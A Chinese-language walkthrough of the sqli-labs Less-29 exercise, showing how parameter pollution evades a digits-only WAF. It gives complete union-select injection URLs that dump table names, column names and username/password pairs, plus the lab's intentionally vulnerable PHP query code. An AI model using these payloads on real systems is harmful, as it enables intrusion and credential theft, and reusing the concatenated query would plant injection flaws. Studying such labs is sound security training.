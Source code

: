 爆表

```
http://daishen.ltd:1112/Less-29/?id=1&id=0'' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

暴字段

```
http://daishen.ltd:1112/Less-29/?id=1&id=0'' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```

暴值

```
http://daishen.ltd:1112/Less-29/?id=1&id=0' union select 1,2,group_concat(username,0x3a,password) from users --+
```

waf绕过方法

waf是只允许输入数字的，我们在输入数字的时候先给waf看然后检测正常后才转发给我们需要访问的页面，弄2个值，一个是用来欺骗waf的。另一个才是给我们需要访问页面的

### login.php

- `login.php`

```php
# 查询 query 的字符串
$qs = $_SERVER['QUERY_STRING'];

# 模拟 tomcat 的查询函数 处理一下
$id1=java_implimentation($qs);
$id=$_GET['id'];

# 再次过滤检测
whitelist($id1);

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

if 查询到结果:
    输出查询的详细信息
else:
    print_r(mysql_error());
?>

function java_implimentation($query_string)
{
    $q_s = $query_string;
    # & 作为分隔符 分割字符串
    $qs_array= explode("&",$q_s);

    # 遍历 qs_array 数组
    foreach($qs_array as $key => $value)
    {    
        $val=substr($value,0,2);
        # 如果数组前两位是 id 的话
        if($val=="id")
        {    
            # 截取 $value 的3-30 的字符串 作为 id 的值 
            $id_value=substr($value,3,30); 
            return $id_value;
            echo "<br>";
            break;
        }
    }
}
```